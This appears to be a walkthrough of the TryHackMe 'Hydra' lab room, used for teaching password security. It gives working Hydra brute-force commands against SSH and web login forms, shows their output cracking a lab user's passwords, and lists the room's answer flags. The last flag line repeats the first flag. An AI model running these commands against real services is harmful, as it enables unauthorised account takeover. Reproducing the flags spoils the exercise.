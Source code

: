 # Hydra Introduction

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

[Hydra](https://tryhackme.com/room/hydra)

## Topic's

* Hydra Fundamentals
* Brute Forcing (FTP
* Brute Forcing (SSH)
* Brute Forcing (http-post-form)

## Hydra Introduction

**What is Hydra?**

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: [https://en.kali.tools/?p=220](https://en.kali.tools/?p=220)

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

**Installing Hydra**

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

If you don't have Linux or the right desktop environment, you can deploy your own Kali Linux machine with all the needed security tools. You can even control the machine in your browser! Do this with our Kali room - [https://tryhackme.com/room/kali](https://tryhackme.com/room/kali)

1. Read the above and have Hydra at the ready.

`No answer needed`

## Using Hydra

Deploy the machine attached to this task, then navigate to `http://MACHINE_IP` *(this machine can take up to 3 minutes to boot)*

**Hydra Commands**

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

**SSH**

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![](https://i.imgur.com/D71vkKM.png)

**Post Web Form**

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![](https://i.imgur.com/vC3ZU4E.png)

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:42:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.190.3:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.190.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:43:03
```

`THM{2673a7dd116de68e85c48ec0b1f2612e}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 -t 4 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:36:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.190.3:22/
[22][ssh] host: 10.10.190.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:37:26
```

`butterfly`

```
ssh molly@10.10.190.3

molly@ip-10-10-190-3:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```

`THM{2673a7dd116de68e85c48ec0b1f2612e}`
